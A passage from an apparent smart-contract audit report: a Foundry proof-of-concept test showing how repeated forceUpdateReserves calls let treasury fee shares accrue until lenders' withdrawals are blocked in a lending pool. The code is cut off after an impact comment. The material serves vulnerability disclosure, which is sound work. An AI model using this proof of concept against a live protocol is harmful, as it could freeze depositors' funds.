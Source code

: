 Then, create a new file on /test/forge/core/pool and paste the below contents.

```javascript
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.19;

import {console2} from 'forge-std/src/Test.sol';
import {PoolLiquidationTest} from './PoolLiquidationTests.t.sol';

contract AuditHighSupplyRateDosWithdrawals is PoolLiquidationTest {

function test_POC_DosedWithdrawalsDueToTreasurySharesAccruing() public {
    uint256 aliceMintAmount = 10_000e18;
    uint256 bobMintAmount = 10_000e18;
    uint256 supplyAmount = 1000e18;
    uint256 borrowAmount = 1000e18;

    _mintAndApprove(alice, tokenA, aliceMintAmount, address(pool));         // alice collateral
    _mintAndApprove(bob, tokenB, bobMintAmount, address(pool));             // bob supply
    _mintAndApprove(alice, tokenB, aliceMintAmount, address(pool));         // alice needs some funds to pay interest

    vm.startPrank(bob);
    pool.supplySimple(address(tokenB), bob, supplyAmount, 0); 
    vm.stopPrank();

    vm.startPrank(alice);
    pool.supplySimple(address(tokenA), alice, aliceMintAmount, 0);  // alice collateral
    pool.borrowSimple(address(tokenB), alice, borrowAmount, 0);     // 100% utilization
    vm.stopPrank();

    for(uint256 i = 0; i < (12 * 60 * 60); i++) { // Each second `_updateIndexes()` is called via external function `forceUpdateReserves()`
        vm.warp(block.timestamp + 1);
        pool.forceUpdateReserves();
    }

    // Alice full repay
    vm.startPrank(alice);
    tokenB.approve(address(pool), type(uint256).max);
    pool.repaySimple(address(tokenB), type(uint256).max, 0);
    uint256 post_aliceTokenBBalance = tokenB.balanceOf(alice);
    uint256 interestRepaidByAlice = aliceMintAmount - post_aliceTokenBBalance;

    for(uint256 i = 0; i < (60); i++) { // warp after for treasury to accrue interest on their 'fee shares' 
        vm.warp(block.timestamp + 1);
        pool.forceUpdateReserves();
    }

    // Check debt has been repaid
    (, , , uint256 debtShares) = pool.marketBalances(address(tokenB));
    assert(debtShares == 0); // All debt has been repaid

    // Treasury assets to claim
    uint256 treasuryAssetsToClaim = pool.getReserveData(address(tokenB)).accruedToTreasuryShares * pool.getReserveData(address(tokenB)).liquidityIndex / 1e27;

    // Bob's assets to claim
    bytes32 bobPos = keccak256(abi.encodePacked(bob, 'index', uint256(0)));
    uint256 bobsAssets = pool.supplyShares(address(tokenB), bobPos) * pool.getReserveData(address(tokenB)).liquidityIndex / 1e27;

    // Impact 1: the interest claimable by the treasury is greater than 10% of the interest repaid
```